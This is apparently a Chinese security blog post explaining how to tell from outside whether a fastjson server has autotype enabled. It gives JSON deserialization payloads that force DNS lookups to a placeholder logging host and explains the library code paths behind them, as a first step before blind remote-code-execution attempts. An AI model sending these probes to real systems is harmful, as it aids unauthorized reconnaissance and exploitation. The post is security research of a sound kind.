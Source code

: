 ```yaml
---
layout: post
title:  黑盒能判断fastjson开启autotype了吗
tags: [fastjson,websec]
---
```


tldr 能。  
当然，还是有条件的，本实验是在可以出网的环境测试的。fastjson版本1.2.77_preview_01。

## payload
方式一
```
payload1:
{ {"@type":"java.net.URL","val":"http://dns1.log.tld"}:"a"}
```
如果收到dns1的请求，说明没有开启autotype。（本文未分析，因为写完了才发现。留给读者分析。）
方式二
```
payload1:
{"@type":"java.net.Inet4Address","val":"dns1.log.tld"}
payload2
[{"@type":"java.net.CookiePolicy"},{"@type":"java.net.Inet4Address","val":"dns2.log.tld"}]
```
发送2个请求，如果同时收到dns1和dns2的请求，说明开启了autotype。

## 起因
盲打fastjson时，发现payload1成功了。接下来就是payload一把梭，结果，并没有收到rmi/ldap请求。  
那么，问题来了。为什么没有成功？被拦截了，或者payload没有执行成功。因为执行需要各种条件。比如没有利用链的jar包，或者版本比较新，利用在黑名单或者没有开启autotype。一顿盲打，就是看运气有没有不在黑名单中的利用或者可以绕过autotype check的利用，但是也许autotype就没有开启，这样再多的盲打也是徒劳。所有本文探讨一下，黑盒能否判断autotype开启了。

## 原理
payload原理比较简单。发送payload1是为了判断是否能出网。发送payload2，如果开启了autotype，则`{"@type":"java.net.CookiePolicy"}`	不会报错，后面的代码也会执行，这样就可以收到dns2；如果没有开启autotype，则前半句就会报错，后半句自然就不会执行，也就无法收到dns2请求。

## 分析
接下来，分析一下payload。  
不管是否开启autotype，payload1都可以执行成功。因为ParserConfig.java的1419行`clazz = deserializers.findClass(typeName);`会取到java.net.Inet4Address，或者可以说java.net.Inet4Address是在某种“白”名单中。可以查看462行`        deserializers.put(Inet4Address.class, MiscCodec.instance);` ，这里给deserializers添加了Inet4Address。再查看MiscCodec.java第334和336行，我们就可以看到`InetAddress.getByName(strVal);`	做了dns解析，所以我们收到了dns请求。  

再看ParserConfig.java。假设一个typename不在黑名单中，也不在白名单中，顺利通过了前面的检查，最终在1528行`  if (!autoTypeSupport) {`会进行autotype判断，如果没有开启，就会报异常，测试payload就是根据这里做的判断。测试时发现，在开启autotype时，有些类会执行1524行的异常代码，所以还需要1523行`beanInfo.creatorConstructor`为null。只要满足这个条件即可。这样就会顺利执行后面的代码。就可以判断成功。

## 其它
java.net.URL
```
payload3
{"@type":"java.net.URL","val":"http://dns3.log.tld"}
payload4
{ {"@type":"java.net.URL","val":"http://dns4.log.tld"}:"a"}
```
实际发现payload3可以收不到dns请求，payload4却可以。因为map操作时，调用了`java.net.URL`的hashcode函数，最终调用了`java.net.URLStreamHandler`的hashcode函数，调用了getHostAddress函数。

## 总结
问题想复杂了。

### 引用
1. [Fastjson 1.2.25-1.2.47反序列化漏洞分析](https://xz.aliyun.com/t/9052)
2. [fastjson blacklist](https://github.com/LeadroyaL/fastjson-blacklist)
3. [FastJson 反序列化学习](http://www.lmxspace.com/2019/06/29/FastJson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%A6%E4%B9%A0/)
4. [Fastjson 流程分析及 RCE 分析](https://paper.seebug.org/994/)
5. [Java安全之Fastjson反序列化漏洞分析](https://xz.aliyun.com/t/9344)
6. [Fastjson 反序列化漏洞史](https://paper.seebug.org/1192/)
7. [某json <= 1.2.68 远程代码执行漏洞分析](https://xz.aliyun.com/t/7878)

